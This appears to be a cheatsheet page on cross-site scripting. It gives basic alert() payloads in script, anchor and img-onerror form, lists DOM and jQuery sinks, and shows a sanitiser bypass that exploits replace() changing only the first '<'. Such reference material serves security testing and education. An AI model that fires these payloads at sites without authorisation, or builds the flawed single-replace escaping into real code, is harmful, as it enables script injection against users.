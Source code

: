 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Attack

### Basic payload

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### Vectors

If you can control the `href` tag of an anchor (`<a>` element). You can try to set the `href` value to `javascript:alert()`.

### HTML events and tags

Lists :

- [all-html-events.txt]({{ base_url }}/assets/txt/all-html-events.txt)
- [all-html-tags.txt]({{ base_url }}/assets/txt/all-html-tags.txt)

> Source [www.w3schools.com - event](https://www.w3schools.com/tags/ref_eventattributes.asp) and [www.w3schools.com - tags](https://www.w3schools.com/TAGs/).

### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```

